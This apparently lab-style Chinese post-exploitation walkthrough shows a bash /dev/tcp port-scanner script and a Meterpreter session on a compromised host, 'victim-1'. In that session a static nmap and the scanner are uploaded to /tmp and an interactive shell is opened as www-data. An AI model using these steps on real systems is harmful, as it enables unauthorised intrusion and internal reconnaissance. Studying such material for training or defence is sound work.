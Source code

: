 我们需要上传的nmap静态二进制文件在：`/root/tools/static-binaries/nmap`。

端口扫描脚本portscan.sh：[bash-scripts/utils/portscan.sh](https://github.com/mnorin/bash-scripts/blob/master/utils/portscan.sh)

```bash
#!/bin/bash

if [ "$1" == "" ]
then
    echo
    echo This script scans TCP opened ports on IP or hostname
    echo Usage : portscan.sh \<ip-or-hostname\> \[start-port\] \[end-port\]
    echo start-port equals to 1 by default
    echo end-port equals 1024 by default
    echo
    exit
fi

START_PORT=${2:-1}
END_PORT=${3:-1024}
echo "Scanning $1 (ports $START_PORT to $END_PORT)"

PORT_PROTOCOL="tcp"

scan_port(){
    PORT_NUMBER=$1
    PORT_SCAN_RESULT=`2>&1 echo "" > /dev/$PORT_PROTOCOL/$TARGET_NAME_OR_IP/$PORT_NUMBER | grep connect`
    [ "$PORT_SCAN_RESULT" == "" ] && echo $PORT_NUMBER\/$PORT_PROTOCOL'	'open'	'`grep $PORT_NUMBER/$PROTOCOL /etc/services | head -n1 | awk '{print $1}'`
}

TARGET_NAME_OR_IP=$1
echo 'PORT	STATE	SERVICE'

for PORT_NUMBER in `seq $START_PORT $END_PORT`
do
    scan_port $PORT_NUMBER
done
```

```
meterpreter > getuid
Server username: www-data (33)
```

```
meterpreter > upload /root/tools/static-binaries/nmap /tmp/nmap
[*] uploading  : /root/tools/static-binaries/nmap -> /tmp/nmap
[*] Uploaded -1.00 B of 5.82 MiB (0.0%): /root/tools/static-binaries/nmap -> /tmp/nmap
[*] uploaded   : /root/tools/static-binaries/nmap -> /tmp/nmap
meterpreter > upload /root/portscan.sh /tmp/portscan.sh
[*] uploading  : /root/portscan.sh -> /tmp/portscan.sh
[*] Uploaded -1.00 B of 826.00 B (-0.12%): /root/portscan.sh -> /tmp/portscan.sh
[*] uploaded   : /root/portscan.sh -> /tmp/portscan.sh
meterpreter > cd /tmp
meterpreter > shell
Process 793 created.
Channel 2 created.
/bin/bash -i
bash: cannot set terminal process group (425): Inappropriate ioctl for device
bash: no job control in this shell
www-data@victim-1:/tmp$ ls -al
ls -al
total 5972
```